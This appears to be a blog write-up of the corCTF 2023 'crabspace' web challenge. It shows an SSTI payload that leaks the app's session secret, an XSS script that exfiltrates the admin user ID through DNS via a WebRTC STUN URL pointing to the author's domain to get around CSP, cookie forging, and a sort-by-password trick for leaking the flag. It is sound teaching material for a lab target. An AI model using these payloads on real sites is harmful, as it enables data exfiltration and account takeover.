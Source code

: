 ```yaml
---
layout: post
title: corCTF 2023 web/crabspace Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[corCTF](https://2023.cor.team/challs)  
[Event on CTFtime](https://ctftime.org/event/1928)

It was a team effort for us to solve this challenge. I learned something new about WebRTC.

## Solution summary

- SSTI in `Tera::one_off` to leak secret
- WebRTC to bypass CSP restrictions and exfiltrate admin user ID
- Forge admin cookie with admin user ID and secret to gain access to admin view
- Follow admin account and sort following accounts on password field to leak admin password (which is the flag)

## crabspace

- Description:
  > Now that Twitter is 🦀 gone 🦀, it's time for a new social media platform.  
    🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀
- Author: Strellic

The source code is provided. I can create users, edit my "space", view other users' "space"s, and follow other users.

![crabspace](/assets/image/corctf-2023-crabspace-web-writeup/crabspace.png)

To view a user's "space", visit `/space/<user id>`, The user id is UUIDv4 generated when the user is created. The "space" content is rendered in an `iframe`, with the content in the `iframe`'s `srcdoc` attribute.

{% raw %}
```html
<iframe sandbox="allow-scripts"
srcdoc="<link rel='stylesheet' href='/public/axist.min.css' />{{ space }}" class="space"></iframe>
```
{% endraw %}

With content in `srcdoc`, it is rendered as HTML in the `iframe` even it is escaped in the template, thus we have an easy(?) XSS.

The users are defined as a struct as shown below and stored in a map.

```rust
#[derive(Debug, Serialize, Clone)]
pub struct User {
    pub id: Uuid,
    pub name: String,
    pub pass: String,
    pub following: Vec<Uuid>,
    pub followers: Vec<Uuid>,
    pub space: String,
}
```

The admin user with flag as the password, and a random ID is created on starting of the application.

The bot first logs in as admin, then visit an URL we provide.

## Finding SSTI

Initially it was not clear how we can get the flag from what is obvious. While I was on the train I read the source code twice and with the help of [documentation](https://docs.rs/tera/latest/tera/struct.Tera.html#method.one_off) I found the `one_off` function in Tera when rendering "space" page is a bit suspicious.

```rust
ctx.tera.insert(
    "space",
    &Tera::one_off(&user.space, &ctx.tera, true).unwrap_or_else(|_| user.space.clone()),
);
ctx.tera.insert("id", &id);
utils::render(tera, "space.html", ctx.tera).into_response()
```

![one_off is used in the code.](/assets/image/corctf-2023-crabspace-web-writeup/one-off.png)

The code takes the user's "space" as template and renders it. Tera templates documentation can be found at <https://tera.netlify.app/docs/#templates>.

When I printed out the template context with {% raw %}`{{ __tera_context }}`{% endraw %}, I got:

{% raw %}
```
{ "user": { "followers": [], "following": [], "id": "af787749-d532-4d37-94a6-2d6bc4201f63", "name": "lollol", "pass": "", "space": "{{ __tera_context }}" } }
```
{% endraw %}

The context includes the user struct, which includes the ID of the logged in user. However, the password is set to empty string when the context is created:

```rust
user = USERS.get(&id).map(|v| User {
    pass: "".to_string(),
    ..v.clone()
});
```

We can use SSTI to leak the secret for session cookie with {% raw %}`{{ get_env(name="SECRET") }}`{% endraw %}. With the secret and the user ID of admin, we can forge a session cookie to login as admin.

## Leak admin user ID

With the SSIT which can render the user ID and XSS, leaking the admin user ID should be easy right? However, with the very strict fetch directive CSP below, we tried including fetch API, WebSocket, meta tag and JS redirect, form and DNS prefetch, but had no luck exfiltrating the data. I could not find any endpoint on within the challenge that I could use style-src to exfiltrate the data neither.

```
default-src 'none'; style-src 'self'; script-src 'unsafe-inline'; frame-ancestors 'none'
```

I then reading through all non-fetch directives in CSP, and some research. While getting ready to go to bed, thinking about all the cases where a webpage makes request to server, WebRTC came to my mind (I have also noticed [a very new TR about WebRTC](https://www.w3.org/TR/webrtc-nv-use-cases/), which may or may not be related). As I do not know much about WebRTC, I put a message on our Discord channel before I went to bed.

The next morning, I started with some WebRTC examples. The payload is limited to only 200 characters, with some trial and error, I managed to craft a minimal payload that would do DNS request for the STUN server I specify (the payload has been modified to be more readable):

{% raw %}
```html
<script>
async function a(){
    c={iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]}
    (p=new RTCPeerConnection(c)).createDataChannel("d")
    await p.setLocalDescription()
}
a();
</script>
```
{% endraw %}

The port does not matter, as we are exfiltrating through DNS request. The user ID is included in the hostname and sent through DNS request.

## Getting the flag

The admin account has access to admin view for each user (except admin itself). The admin view has the lists of followers and followings of the user. The lists are sorted with field specified in the URL query parameter. It is possible to sort by password field using `?sort=pass`.

We can have a main account to follow other users. We can then create a list of users with selected password, and follow them along with admin on our main account. The admin view for the main account will have the list of users sorted by password, and we can get the flag character by character. This can be scripted with preparing the whole following list and get one character each time we visit the admin view, or can script with binary search. (This is kinda pain to extract the flag, thanks to my teammate implemented the solution.)

Got the flag 🦀:

```
corctf{b3tter_name_th4n_x}
```